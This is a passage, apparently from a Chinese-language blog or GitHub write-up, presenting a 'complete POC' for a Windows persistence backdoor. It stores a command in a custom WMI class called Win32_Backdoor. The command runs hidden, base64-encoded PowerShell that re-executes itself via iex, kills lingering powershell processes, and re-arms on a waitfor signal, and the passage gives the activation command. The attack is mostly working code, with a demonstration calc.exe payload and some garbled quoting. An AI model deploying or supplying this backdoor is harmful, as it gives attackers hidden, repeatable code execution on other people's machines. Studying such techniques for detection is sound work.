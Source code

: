 ![image](img/cd97cf790bc7286e84e4e1ff853c3b66.png)

存在bug，导致powershell.exe无法正常退出，进程在后台残留

所以需要添加一段代码，用来结束进程powershell.exe

**注：**

根据逻辑关系，结束powershell.exe的代码要写在`powershell -nop -W Hidden -E ...`之前

### 最终，完整POC代码如下：

后门代码：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()| Out-Null
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& taskkill /f /im powershell.exe ```&```& waitfor persist ```&```& powershell -nop -W Hidden -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() | Out-Null `$exec=([WmiClass] ‘Win32_Backdoor’).Properties[‘Code’].Value;

iex $exec | Out-Null` 
```

激活命令：

```
waitfor /s 127.0.0.1 /si persist 
```
